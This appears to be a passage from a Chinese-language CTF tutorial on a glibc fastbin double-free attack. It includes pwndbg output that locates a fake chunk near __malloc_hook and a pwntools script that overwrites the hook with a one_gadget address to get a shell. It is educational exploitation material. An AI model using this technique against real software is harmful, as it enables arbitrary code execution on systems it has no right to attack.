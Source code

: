 效果如下

```shell
pwndbg> fastbins
fastbins
0x20: 0x0
0x30: 0x1d19320 ◂— 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x1d191b0 —▸ 0x1d19010 —▸ 0x1d191b0 ◂— 0x1d19010
0x80: 0x0
```

#### 分配 malloc_hook 附近chunk

此時，fastbin 的鏈表爲 b->a->b->a->…，則我們可以在申請第一個相同大小的 chunk 時，設置 b 的 fd 爲 malloc_hook 附近處的 chunk `0x7fd798586aed`（這裏是舉一個例子，代碼中需使用相對地址）。

```shell
pwndbg> print (void*)&main_arena
$1 = (void *) 0x7fd798586b20 <main_arena>
pwndbg> x/8gx 0x7fd798586b20-16
0x7fd798586b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7fd798586b20 <main_arena>:	0x0000000000000000	0x0000000000bce130
0x7fd798586b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7fd798586b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
pwndbg> find_fake_fast 0x7fd798586b10 0x7f
FAKE CHUNKS
0x7fd798586aed PREV_INUSE IS_MMAPED NON_MAIN_ARENA {
  prev_size = 15535264025435701248,
  size = 127,
  fd = 0xd798247e20000000,
  bk = 0xd798247a0000007f,
  fd_nextsize = 0x7f,
  bk_nextsize = 0x0
}
pwndbg> print /x 0x7fd798586b10-0x7fd798586aed
$2 = 0x23
pwndbg> print /x 0x7fd798586b20-0x7fd798586aed
$3 = 0x33

```

那麼當再次分配 b 的時候，由於此時 b 的 fd 已經被我們修改爲了malloc_hook附近的地址，所以這時候我們再次分配一個 chunk，就會指向 `0x7fd798586aed`。 此後便只需要將 malloc_hook 修改爲 one_gadget 地址就可以拿到 shell 了。

```python
    # 3. fastbin attack to malloc_hook nearby chunk
    fake_chunk_addr = main_arena_addr - 0x33
    fake_chunk = p64(fake_chunk_addr).ljust(0x60, 'f')

    index_sentence(fake_chunk)

    index_sentence('a' * 0x60)

    index_sentence('b' * 0x60)

    one_gadget_addr = libc_base + 0xf02a4
    payload = 'a' * 0x13 + p64(one_gadget_addr)
    payload = payload.ljust(0x60, 'f')
    #gdb.attach(p)
    index_sentence(payload)
    p.interactive()
```
